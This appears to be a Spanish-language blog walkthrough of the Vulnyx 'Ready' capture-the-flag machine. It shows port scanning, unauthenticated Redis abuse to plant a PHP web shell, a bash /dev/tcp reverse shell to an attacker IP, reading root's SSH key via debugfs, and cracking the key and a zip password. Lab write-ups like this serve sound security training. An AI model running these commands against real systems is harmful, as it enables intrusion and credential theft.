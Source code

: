 ```yaml
---
layout: post
title:  "Ready"
date:   2024-04-11 11:37:29
categories: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Maquina:</strong> Ready</td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link ISO:</strong><a href="https://vulnyx.com/#ready"> Vulnyx</a></td> </tr>
</table>

<br>

![machine](/notas/public/img/vulnyx/ready/readypc.png){:.margin}

**1\.** teniendo la ip de la maquina, hacemos un descubrimiento de puertos

`sudo nmap -p- --open -sS -T5 --min-rate=5000 192.168.1.7 -n -Pn`

![p80](/notas/public/img/vulnyx/ready/nmap_ports.png){:.margin}

**2\.** lanzamos un conjunto de script de reconocimiento a dichos puertos

`sudo nmap -p22,80,6379,8080 -sCV -n -Pn 192.168.1.7`

![versions](/notas/public/img/vulnyx/ready/nmap_version.png){:.margin}

**3\.** Revisamos apache en los puertos 80 y 8080, no vemos nada interesante

![versions](/notas/public/img/vulnyx/ready/apache_80.png){:.margin}
![versions](/notas/public/img/vulnyx/ready/apache_8080.png){:.margin}

**4\.** Podemos fuzzear ambos servicios de apache, pero no encontraremos nada interesante

`gobuster dir -u http://192.168.1.7:80/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz80.png){:.margin}

`gobuster dir -u http://192.168.1.7:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz8080.png){:.margin}

**5\.** Probamos acceder a redis sin credenciales (Se puede), tambien podemos crear un archivo php en el servidor apache

`redis-cli -h 192.168.1.7`

`config get dir`

`config set dbfilename shell.php`

`config set dir /var/www/html/`

`set shell.php "<?php system($_GET['cmd']);?>"`

`save`

`exit`

![redis](/notas/public/img/vulnyx/ready/redis.png){:.margin}

**6\.** Apuntamos hacia nuestro archivo generado, incluimos el parametro cmd para mediante este ingresar comandos de sistema.

\- En el puerto 80 no lo encontramos: `http://192.168.1.7/shell.php?cmd=id`
![notfound](/notas/public/img/vulnyx/ready/not_found_80.png){:.margin}

\- Sobre el 8080 si que podemos: `http://192.168.1.7:8080/shell.php?cmd=id`

![found](/notas/public/img/vulnyx/ready/found_8080.png){:.margin}

**7\.** Nos ponemos en escucha en el puerto 443

`sudo nc -nlvp 443`

![nc](/notas/public/img/vulnyx/ready/nc.png){:.margin}

**8\.** Ingresamos el comando para obtener un Reverse Shell

`http://192.168.1.7:8080/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.13/443 0>%261"`

![revershell](/notas/public/img/vulnyx/ready/revershell.png){:.margin}

**9\.** Ya teniendo acceso a la máquina, estamos como usuario Ben, revisamos los grupos al que pertenece.

-Pertenemos al grupo disk, con esto podemos montar y desmontar Unidades

`id`

![id](/notas/public/img/vulnyx/ready/id.png){:.margin}

**10\.** Revisamos unidades disponibles

`df -h`

![df](/notas/public/img/vulnyx/ready/df.png){:.margin}

**11\.** Buscamos la herramienta de análisis y depuración de archivos   

`find / -type f -name debugfs 2>/dev/null`

`which debugfs`

![debugs](/notas/public/img/vulnyx/ready/debugfs.png){:.margin}

**12\.** Ingresamos al disco sda1, luego leemos la llave privada de root.

`/usr/sbin/debugfs /dev/sda1`

`cat /root/.ssh/id_rsa`

![idrsa](/notas/public/img/vulnyx/ready/cat_idrsa.png){:.margin}

**13\.** Vemos que la llave esta protegida, lo copiamos y lo guardamos en un archivo en nuestra máquina local 

`nano key`

![key](/notas/public/img/vulnyx/ready/key.png){:.margin}

**14\.** En este caso usare la herramienta RSAcrack para obtener un passphrase

`sudo RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![rsacrack](/notas/public/img/vulnyx/ready/rsacrack.png){:.margin}

**15\.** Teniendo la clave nos conectamos como root por ssh

`ssh -i key root@192.168.1.7`

![ssh](/notas/public/img/vulnyx/ready/ssh.png){:.margin}

**16\.** Vemos que tenemos un comprimido, abrimos un servidor local

`ls`

`python3 -m http.server 8081`

![img](/notas/public/img/vulnyx/ready/python_server.png){:.margin}

**17\.** Desde nuestra máquina local nos descargamos el comprimido

`wget http://192.168.1.7:8081/root.zip`

![img](/notas/public/img/vulnyx/ready/wget.png){:.margin}

**18\.** Intentamos descomprimir pero necesitamos un acontraseña

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/unzip.png){:.margin}

**19\.** Utilizamos zip2john para obtener un hash que representa la contraseña

`zip2john root.zip > hashzip`

![img](/notas/public/img/vulnyx/ready/zip2john.png){:.margin}

**20\.** Ahora desciframos la contraseña

`john --wordlist=/usr/share/wordlists/rockyou.txt hashzip`

![img](/notas/public/img/vulnyx/ready/clave.png){:.margin}

**21\.** Teniendo la clave procedemos a descomprimir, asi obtenemos la "flag" de root

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/flag.png){:.margin}

